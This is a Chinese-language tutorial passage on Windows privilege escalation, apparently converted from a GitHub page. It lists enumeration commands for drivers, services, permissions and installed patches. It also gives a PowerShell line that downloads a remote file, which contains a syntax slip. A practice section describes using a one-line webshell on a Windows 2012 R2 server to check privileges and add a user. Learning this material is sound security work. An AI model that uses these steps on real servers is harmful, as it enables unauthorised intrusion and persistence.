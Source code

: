 ```powershell
DRIVERQUERY             　　// 列出安装的驱动
tasklist /svc               // 列出服务任务
net start                   // 列出启动的服务
dir /s foo                  // 在目录中搜索包含指定字符的项
dir /s foo == bar           // 同上
sc query                    // 列出所有服务
sc delete 服务名             // 删除服务
sc qc ServiceName           // 找到指定服务的路径
shutdown /r /t 0            // 立即重启
type file.txt               // 打印出内容
icacls "C:\Example"         // 列出权限
wmic qfe get Caption,Description,HotFixID,InstalledOn  // 列出已安装的补丁
(New-Object System.Net.WebClient) .DownloadFile("http://host/file"."C:\LocalPath")　// 利用ps远程下载文件到本地
accesschk.exe -qwsu "Group"         // 修改对象（尝试Everyone，Authenticated Users和/或Users）
```

## 实践

### 基于Web环境的权限提升

提权的基本流程：信息收集-->补丁筛选-->利用MSF或特定EXP-->提权成功

#### 信息收集

服务器是Windows2012R2的服务器。

通过一句话连接服务器，查看网站webshell的权限，是管理员权限。

![查看权限](./Web环境/查看权限.png)

添加一个用户。

![添加用户](./Web环境/添加用户.png)

查看当前用户权限： `whoami /priv`。
